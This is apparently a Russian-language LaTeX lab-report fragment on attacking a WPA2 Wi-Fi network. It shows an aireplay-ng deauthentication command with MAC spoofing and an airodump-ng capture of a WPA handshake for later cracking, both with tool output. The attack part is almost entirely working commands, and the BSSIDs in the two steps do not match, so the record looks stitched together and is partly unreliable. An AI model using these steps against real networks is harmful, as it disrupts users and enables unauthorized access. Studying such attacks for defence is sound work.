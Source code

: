 \documentclass[11pt, a4paper]{article}		%
\begin{document}

\subsection{Произвести деаутентификацию одного из клиентов, до тех пор, пока не удастся собрать необходимых для взлома аутенти-фикационных сообщений}

\begin{verbatim}
aireplay-ng --ignore-negative-one --deauth 150 -a 40:01:C6:CE:C7:C0 -h A4:17:31:7F:B2:3D mon0
The interface MAC (C4:6E:1F:25:4E:9C) doesn't match the specified MAC (-h).
ifconfig mon0 hw ether A4:17:31:7F:B2:3D
04:49:25  Waiting for beacon frame (BSSID: 40:01:C6:CE:C7:C0) on channel -1
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
04:49:25  Sending DeAuth to broadcast -- BSSID: [40:01:C6:CE:C7:C0]
04:49:26  Sending DeAuth to broadcast -- BSSID: [40:01:C6:CE:C7:C0]
04:49:26  Sending DeAuth to broadcast -- BSSID: [40:01:C6:CE:C7:C0]
04:49:27  Sending DeAuth to broadcast -- BSSID: [40:01:C6:CE:C7:C0]
\end{verbatim}




\subsection{}


В результате перехватываем пакет handshake:

\begin{verbatim}
airodump-ng mon0 --bssid 1C:7E:E5:39:26:F8 -c 6 
--write dump --ignore-negative-one
CH  6 ][ Elapsed: 1 min ][ 2015-06-03 21:30 ][ WPA handshake: 1C:7E:E5:39:26:F

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH E

1C:7E:E5:39:26:F8  -47 100      880      791    4   4  54e. WPA2 CCMP   PSK  11

BSSID              STATION            PWR   Rate    Lost  Packets  Probes     

1C:7E:E5:39:26:F8  74:E5:43:65:15:F5  -32    0e- 1      0      645  18   
\end{verbatim}
\end{document}
